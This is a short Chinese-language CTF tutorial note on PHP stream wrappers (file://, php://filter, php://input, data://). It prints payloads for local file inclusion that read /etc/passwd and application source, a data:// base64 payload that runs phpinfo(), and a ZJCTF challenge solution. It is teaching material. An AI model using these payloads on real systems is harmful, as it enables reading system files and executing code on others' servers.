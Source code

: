 ## php 伪协议

伪协议是**一种特殊的协议，用于访问不同的数据源**。 

它们并不是真正的网络协议，而是一种封装协议，使得PHP能够以特定的方式**访问和操作数据**。 PHP提供了多种伪协议，每种伪协议都有其特定的用途和功能。


### file://

一般用于访问本地文件
- 绝对路径、相对路径、网络路径

```bash
?file=file:///etc/passswd

?url=/?url=file:///var/www/html/index.php # 访问index.php
```


### php://

访问各个输入输出流

常用： `php://filter` 用于**读取源码**，`php://input` 用于**执行php代码**

```bash
# base64 输出
php://filter/read=convert.base64-encode/resource=[文件名]
# 适用于 include 读文件

# 在数据流中写入 POST 的数据
php://input

# 读取实例
?cmd=php://filter/read=convert.base64-encode/resource=[文件名]
```


### data://

数据流封装器，以**传递相应格式的数据**。可以用来执行PHP代码。一般需要用到`base64编码`传输。

```
?file=data://text/plain,xxxx
?file=data://text/plain;base64,PD9waHAgcGhwaW5mbygpOz8%2b
```


### 实例

```php
file_get_contents($text,'r')==="welcome to the zjctf"
```
- 要求从文件里读取字符串，与 welcome to the zjctf 相等

可以用 `data://` 和 `php://` 协议，将数据流重定向到用户可以控制的输入流

构造 payload:
```bash
?text=data://text/plain,welcome to the zjctf
# 相当于 封装了一个虚拟的文件 内容是 welcome to the zjctf

# 或者

?text=php://input 
# 同时 POST数据：welcome to the zjctf
```
